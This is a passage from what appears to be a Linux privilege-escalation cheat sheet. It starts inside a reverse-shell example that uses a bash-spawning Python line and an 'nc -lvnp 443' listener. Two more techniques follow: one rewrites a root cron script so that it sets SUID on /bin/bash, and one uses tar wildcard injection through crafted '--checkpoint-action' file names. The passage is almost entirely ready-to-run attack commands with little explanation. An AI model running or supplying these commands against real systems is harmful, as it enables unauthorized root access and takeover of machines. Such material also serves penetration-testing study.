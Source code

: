 ```
p=subprocess.call(["/bin/bash","-i"]);

// Replace the IP & Port 

// Save & Exit the Script
```
Attacker

```
nc -lvnp 443
```

OR

Target

```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import os

os.system("chmod +s /bin/bash")

// Save & Exit the Script

Wait a While
/bin/bash -p
id && whoami
```

Example 4

Privilege Escalation via Tar Bash Script (WildCards)

```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/mysql-db-backup.sh
cat /usr/bin/local/mysql-db-backup.sh
Output of Script:
--------------------------------
#!/bin/bash

cd /var/www/html/
tar czf /tmp/dbbackup.tar.gz *
--------------------------------
cd /var/www/html/
echo "#!/bin/bash" > priv.sh
echo "chmod +s /bin/bash" >> priv.sh
chmod +x priv.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=sh\ priv.sh
Wait a while
/bin/bash -p
id && whomai
```
Example 5
